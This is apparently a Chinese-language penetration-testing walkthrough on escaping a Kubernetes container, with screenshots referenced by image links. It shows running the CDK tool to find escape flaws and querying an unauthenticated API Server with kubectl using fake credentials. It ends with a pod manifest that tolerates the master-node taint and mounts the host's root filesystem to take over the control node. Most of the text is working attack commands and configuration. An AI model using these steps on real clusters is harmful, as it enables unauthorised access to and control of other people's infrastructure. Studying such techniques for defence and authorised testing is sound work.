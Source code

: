 <div align=center><img width="800" src="/img/image-20231015163437088.png" div align=center/></div></br>

<div align=center><img width="800" src="/img/image-20231015163634035.png" div align=center/></div></br>

先判断当前环境

<div align=center><img width="800" src="/img/image-20231015163852919.png" div align=center/></div></br>

判断出当前环境是 kubepods

上传cdk_linux_amd64到目标机器

自动扫描逃逸漏洞

```bash
./cdk_linux_amd64 evaluate
```

<div align=center><img width="1000" src="/img/image-20231015164259072.png" div align=center/></div></br>

<div align=center><img width="1000" src="/img/image-20231015164329196.png" div align=center/></div></br>

存在 API Server 未授权

<div align=center><img width="700" src="/img/image-20231015165254794.png" div align=center/></div></br>

> 吐槽一下k8s污点横向需要配合一些漏洞，而这些配合漏洞往往可以单独拿到权限

上传 Kubectl ，执行命令查看污点 node

```shell
./kubectl --server=https://10.96.0.1:443 --insecure-skip-tls-verify=true --username=a --password=a describe nodes  | grep Taints --username=a --password=a #密码随便输入
describe nodes  | grep Taints #执行的命令
```

<div align=center><img width="1000" src="/img/image-20231015165454813.png" div align=center/></div></br>

```yaml
cat > x.yaml << EOF
apiVersion: v1
kind: Pod
metadata:
  name: control-master-x
spec:
  tolerations:
  - key: "node-role.kubernetes.io/master"
    operator: "Exists"
    effect: "NoSchedule"
  containers:
  - name: control-master-x
    image: ubuntu:18.04
    command: ["/bin/sleep", "3650d"]
    volumeMounts:
    - name: master
      mountPath: /master
  volumes:
  - name: master
    hostPath:
      path: /
      type: Directory
EOF
```
> key: 污点名字
>
> image: 镜像名字
>
> mountPath: 挂载路径
